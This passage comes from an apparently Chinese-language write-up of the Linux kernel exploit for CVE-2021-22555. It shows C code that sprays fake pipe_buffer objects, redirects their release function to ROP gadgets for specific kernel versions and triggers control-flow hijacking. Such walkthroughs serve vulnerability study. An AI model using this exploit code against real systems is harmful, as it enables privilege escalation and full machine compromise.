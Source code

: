 ![9](/images/posts/CVE-2021-22555/9.png)

#### 3-4 劫持控制流

此时skb与`pipe_buffer`占据同一块内存，利用skb伪造`pipe_buffer->ops`指向本堆块，再伪造`pipe_buffer->ops->release`指向第1个ROPgadget，劫持控制流。

```c
  printf("[*] Spraying fake pipe_buffer objects...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  buf = (struct pipe_buffer *)&secondary_buf;
  buf->ops = kheap_addr + 0x290;
  ops = (struct pipe_buf_operations *)&secondary_buf[0x290];
#ifdef KERNEL_COS_5_4_89
  // RAX points to &buf->ops.
  // RCX points to &buf.
  ops->release = kbase_addr + PUSH_RAX_JMP_QWORD_PTR_RCX;
#elif KERNEL_UBUNTU_5_8_0_48
  // RSI points to &buf.
  ops->release = kbase_addr + PUSH_RSI_JMP_QWORD_PTR_RSI_39;
#endif
  build_krop(secondary_buf, kbase_addr, kheap_addr + 0x2B0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;

  // Trigger pipe_release().
  printf("[*] Releasing pipe_buffer objects...\n");
  for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (close(pipefd[i][0]) < 0) {
      perror("[-] close");
      goto err_rmid;
    }
    if (close(pipefd[i][1]) < 0) {
      perror("[-] close");
      goto err_rmid;
    }
  }
```
